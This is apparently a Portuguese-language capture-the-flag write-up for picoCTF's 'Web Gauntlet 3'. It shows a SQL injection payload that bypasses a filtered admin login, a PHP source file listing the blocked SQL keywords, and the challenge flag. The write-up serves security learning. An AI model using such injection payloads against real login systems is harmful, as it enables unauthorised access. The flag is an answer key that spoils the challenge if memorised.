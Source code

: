 # Gauntlet 3
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
Last time, I promise!  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio  
- [Acesse o site](http://mercury.picoctf.net:8650/)  
- [Página de filtragem](http://mercury.picoctf.net:8650/filter.php)    

## Solução  

Acessei o site com essa tela de login:

![image](https://github.com/user-attachments/assets/894f1710-9ef2-4e1e-8d6c-f9b3cf4e3321)

E vi que na url ```http://mercury.picoctf.net:32946/filter.php``` continha os mesmos filtros do Web Gauntlet 2
![image](https://github.com/user-attachments/assets/9f7279dd-09da-4e81-a6aa-38d7ee89096b)

Com isso minha primeira tentativa foi usar o Login que usei no Web Gauntlet 2, LOGIN:```ad'||'min``` SENHA:```1' IS NOT '2```
![image](https://github.com/user-attachments/assets/86f0695b-065b-435b-84b3-4c05235fc10d)
![image](https://github.com/user-attachments/assets/8eae02cb-ddd8-4f51-9d7d-aec65f7337e7)

Com isso o site mandou eu visitar o link ```http://mercury.picoctf.net:32946/filter.php``` novamente e me apresentou o código a seguir:


```
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```

> Assim, obtemos a flag `picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}`  
